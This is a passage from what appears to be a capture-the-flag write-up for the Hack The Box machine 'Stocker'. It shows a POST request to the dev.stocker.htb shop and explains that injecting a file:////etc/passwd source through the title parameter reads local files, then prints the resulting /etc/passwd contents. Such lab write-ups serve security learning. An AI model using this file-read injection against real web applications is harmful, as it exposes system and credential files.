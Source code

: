 ```POST

Origin: http://dev.stocker.htb

Content-Length: 162

Connection: close

Cookie: connect.sid=s%3AIhO6lY-2aBFAjFehNRDu0KT72grVAYiF.9brbf7scPJZklInizBZnDe4IdHWJtOycbUkV02S2DdU



{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"Cup","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

- after investigaing the the different parameters, I found that I could access the passwd file by setting the src to file:////etc/passwd by the title paramter
```shell 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
landscape:x:109:116::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
fwupd-refresh:x:112:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mongodb:x:113:65534::/home/mongodb:/usr/sbin/nolog

```
